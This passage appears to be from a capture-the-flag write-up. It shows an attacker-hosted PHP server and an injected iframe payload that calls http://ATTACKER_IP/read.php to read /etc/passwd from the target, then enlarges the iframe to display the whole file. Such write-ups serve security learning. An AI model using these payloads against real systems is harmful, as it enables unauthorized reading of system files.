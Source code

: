 ```bash
php -S 0.0.0.0:80
```

> A `python` web server won't process the
> request correctly!
{: .prompt-info }

Now we should be able to send a request using the following
payload with `ATTACKER_IP` replaced with your ip

```html
<iframe src=http://ATTACKER_IP/read.php?x=/etc/passwd></iframe>
```

![passwd small](/images/seasurf/passwd-small.png)

We have a file read! This is a little too small to get
everything so we can just make the `iframe` bigger

```html
<iframe src=http://ATTACKER_IP/read.php?x=/etc/passwd width=1000px height=1000px></iframe>
```

![passwd full](/images/seasurf/passwd-full.png)
